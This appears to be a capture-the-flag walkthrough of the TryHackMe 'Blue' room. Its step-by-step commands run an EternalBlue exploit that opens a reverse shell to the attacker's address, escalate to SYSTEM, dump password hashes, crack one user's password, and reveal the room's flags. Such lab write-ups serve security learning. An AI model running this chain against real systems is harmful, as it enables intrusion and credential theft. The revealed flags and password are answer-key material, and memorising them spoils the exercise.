




# Blue


## Room Info

> **Name**
>
> 🔗 [Blue](https://tryhackme.com/room/blue)
>
> 
>
> **Description**
>
> 📝 *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> **Target IP**
>
> 🎯 `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```


## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```



```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```


## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.



## Flags

* In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```


<details>

<summary>Reveal Flag1: 🚩</summary>


`flag{access_the_machine}`


</details>


```bash
cd C:/Windows/System32/config
cat flag2.txt
```


<details>

<summary>Reveal Flag2: 🚩</summary>


`flag{sam_database_elevated_access}`




</details>


```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```


<details>

<summary>Reveal Flag3: 🚩</summary>


`flag{admin_documents_can_be_valuable}`




</details>


***
